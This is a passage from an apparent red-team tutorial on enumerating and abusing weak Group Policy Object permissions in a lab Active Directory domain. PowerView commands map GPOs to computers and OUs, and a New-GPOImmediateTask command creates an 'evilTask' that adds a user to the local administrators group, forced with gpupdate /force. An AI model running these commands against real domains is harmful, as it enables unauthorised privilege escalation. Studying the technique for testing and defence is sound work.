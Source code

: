 ![](<../../.gitbook/assets/Screenshot from 2018-12-20 11-41-55.png>)

#### Computers with a Given Policy Applied

We can now resolve the computer names the GPO `Misconfigured Policy` is applied to:

```csharp
Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}
```

![ws01.offense.local has "Misconfigured Policy" applied to it](<../../.gitbook/assets/Screenshot from 2018-12-20 11-42-04.png>)

#### Policies Applied to a Given Computer

```csharp
Get-DomainGPO -ComputerIdentity ws01 -Properties Name, DisplayName
```

![](<../../.gitbook/assets/Screenshot from 2019-01-16 19-44-19.png>)

#### OUs with a Given Policy Applied

```csharp
Get-DomainOU -GPLink "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" -Properties DistinguishedName
```

![](<../../.gitbook/assets/Screenshot from 2019-01-16 19-46-33.png>)

#### Abusing Weak GPO Permissions

One of the ways to abuse this misconfiguration and get code execution is to create an immediate scheduled task through the GPO like so:

```csharp
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```

![](<../../.gitbook/assets/Screenshot from 2018-12-20 13-43-46.png>)

The above will add our user spotless to the local `administrators` group of the compromised box. Note how prior to the code execution the group does not contain user `spotless`:

![](<../../.gitbook/assets/Screenshot from 2018-12-20 13-40-11.png>)

### Force Policy Update

ScheduledTask and its code will execute after the policy updates are pushed through (roughly each 90 minutes), but we can force it with `gpupdate /force` and see that our user `spotless` now belongs to local administrators group:

![](<../../.gitbook/assets/Screenshot from 2018-12-20 13-45-18.png>)

### Under the hood
